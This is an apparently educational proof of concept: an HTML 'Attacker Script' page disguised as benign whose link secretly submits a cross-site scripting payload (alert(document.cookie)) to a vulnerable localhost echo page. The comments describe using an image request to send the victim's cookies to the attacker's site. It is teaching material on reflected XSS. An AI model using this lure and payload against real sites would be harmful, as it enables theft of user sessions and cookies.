 #### Attacker Script

```html
<html>
  <head>
    <title>BENIGN PAGE</title>
    <script type="text/javascript">
      // The hacker's first site to which an unsuspecting user is attracted.
      // The hacker's site shows a lot of useful information and generally looks
      // very good but there is one link which is malicious.
      // The link points to a popular site (which is vulnerable).
      // The hacker wants to execute his script on the user's browser to steal cookies.
      // If there is a page on the popular site which just echoes what the user sends
      //(see index.php), then that is what the hacker needs. Again the server script
      // does not sanitise inputs.

      // In this page, the hyperlink is actually part of a form (which the user is not
      // aware of).
      // On clicking the link, the default action (which is to go to the server
      // is prevented by the hacker. Instead he sends a script (which he knows the server
      // will just echo back) through the form. The script here just alerts the cookies.
      // But in reality an image can be used to send all cookies to the hacker's site.
      // Remember, making cross domain requests is a cake-walk with images.
      function sendEvilScript(event) {
        //Disable the default action
        event.preventDefault();

        //Now I will control the submission.. LOL...
        form = document.getElementById("frm");
        ip = document.createElement("input");
        ip.type = "text";
        ip.name = "usr";

        // This is the potential danger.If the user clicks on
        // the hyperlink, then this script will go to the server (the user
        // has unknowingly transported the hacker's script to the server
        // and will get it back on his own browser (see index.php)
        hackstr =
          "<script type='text/javascript'>alert(document.cookie);<\/script>";

        ip.value = hackstr;
        form.appendChild(ip);

        form.submit(); //Force submit the form with my input

        //Hacker decides..."Remove the ip element immediately" so that the
        // user has no clue as to what happened.
        form.removeChild(ip);
      }
    </script>
  </head>
  <body>
    <h2>YOU CAN GO TO SRIKANTH's SITE FROM HERE</h2>
    <form id="frm" action="http://localhost/index.php" method="GET">
      <a href="http://localhost/index.php" onclick="sendEvilScript(event)"
        >SRIKANTH's SITE</a
      >
    </form>
    <h3>HAVE A WONDERFUL DAY <img src="happy-smiley.jpg" /></h3>
  </body>
</html>
```
